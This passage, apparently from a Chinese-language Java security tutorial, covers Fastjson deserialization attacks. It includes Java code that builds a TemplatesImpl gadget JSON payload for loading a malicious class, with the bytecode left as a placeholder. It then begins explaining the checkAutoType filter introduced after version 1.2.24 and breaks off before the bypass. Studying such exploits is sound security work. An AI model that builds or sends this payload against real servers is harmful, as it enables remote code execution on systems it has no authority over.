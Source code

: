 #### 1.3 TemplatesImpl链

说是链子，实际上就是个指定的动态类加载，可以直接用来加载恶意类

```java
        //恶意类TempletaPoc转换成字节码，base64编码
        String byteCode = "xxxxxxxxxxxxxxxxxx";
        //构造TemplatesImpl的json数据，并将恶意类注入到json数据中
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String payload = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+byteCode+"\"]," +
                "'_name':'TempletaPoc'," +
                "'_tfactory':{}," +
                "\"_outputProperties\":{}}\n";
        System.out.println(payload);
```

打就完了

### 2.Fastjson<=1.2.47

这里直接用的1.2.25的版本

#### 2.1绕过流程

Fastjson在1.2.24版本之后进行了一些这方面的修复，如果我们此时再打原先的链子就会报错：autoType is not support. org.apache.tomcat.dbcp.dbcp2.BasicDataSource，这是因为新版本在DefaultJSONParser类里边进行了一些修改，将原先直接loadClass的地方改成了如下所示：

<img src="JAVA%E5%AE%89%E5%85%A8Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/1711871667912.png" alt="1711871667912" style="zoom: 50%;" />

而checkAutoType方法里边则是对一些危险类进行了过滤：

<img src="JAVA%E5%AE%89%E5%85%A8Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/1711872327656.png" alt="1711872327656" style="zoom:50%;" />

